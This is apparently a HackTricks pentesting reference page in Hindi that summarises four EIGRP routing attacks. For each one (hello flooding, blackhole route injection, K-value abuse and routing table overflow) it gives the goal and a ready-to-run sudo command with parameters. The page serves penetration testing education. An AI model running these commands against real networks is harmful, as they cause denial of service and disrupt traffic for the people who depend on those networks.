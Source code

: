# EIGRP हमले

{{#include ../../banners/hacktricks-training.md}}

**यह उन हमलों का सारांश है जो** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) **में उजागर किए गए हैं। आगे की जानकारी के लिए इसे देखें।**

## **फेक EIGRP पड़ोसी हमला**

- **उद्देश्य**: EIGRP हेलो पैकेट्स के साथ राउटर CPUs को ओवरलोड करना, जो संभावित रूप से एक Denial of Service (DoS) हमले की ओर ले जा सकता है।
- **उपकरण**: **helloflooding.py** स्क्रिप्ट।
- **निष्पादन**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **पैरामीटर**:
- `--interface`: नेटवर्क इंटरफेस को निर्दिष्ट करता है, जैसे `eth0`।
- `--as`: EIGRP स्वायत्त प्रणाली संख्या को परिभाषित करता है, जैसे `1`।
- `--subnet`: उपनेट स्थान को सेट करता है, जैसे `10.10.100.0/24`।

## **EIGRP ब्लैकहोल हमला**

- **उद्देश्य**: एक गलत रूट इंजेक्ट करके नेटवर्क ट्रैफिक प्रवाह को बाधित करना, जिससे ट्रैफिक एक गैर-मौजूद गंतव्य की ओर निर्देशित होता है।
- **उपकरण**: **routeinject.py** स्क्रिप्ट।
- **निष्पादन**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **पैरामीटर**:
- `--interface`: हमलावर के सिस्टम इंटरफेस को निर्दिष्ट करता है।
- `--as`: EIGRP AS संख्या को परिभाषित करता है।
- `--src`: हमलावर का IP पता सेट करता है।
- `--dst`: लक्षित उपनेट IP सेट करता है।
- `--prefix`: लक्षित उपनेट IP का मास्क परिभाषित करता है।

## **K-मानों का दुरुपयोग हमला**

- **उद्देश्य**: EIGRP डोमेन के भीतर निरंतर व्यवधान और पुनः कनेक्शन उत्पन्न करना, परिवर्तित K-मानों को इंजेक्ट करके, प्रभावी रूप से एक DoS हमले का परिणाम।
- **उपकरण**: **relationshipnightmare.py** स्क्रिप्ट।
- **निष्पादन**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **पैरामीटर**:
- `--interface`: नेटवर्क इंटरफेस को निर्दिष्ट करता है।
- `--as`: EIGRP AS संख्या को परिभाषित करता है।
- `--src`: एक वैध राउटर का IP पता सेट करता है।

## **राउटिंग टेबल ओवरफ्लो हमला**

- **उद्देश्य**: राउटर के CPU और RAM पर दबाव डालना, राउटिंग टेबल को कई गलत रूट्स के साथ भरकर।
- **उपकरण**: **routingtableoverflow.py** स्क्रिप्ट।
- **निष्पादन**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **पैरामीटर**:
- `--interface`: नेटवर्क इंटरफेस को निर्दिष्ट करता है।
- `--as`: EIGRP AS संख्या को परिभाषित करता है।
- `--src`: हमलावर का IP पता सेट करता है।

{{#include ../../banners/hacktricks-training.md}}
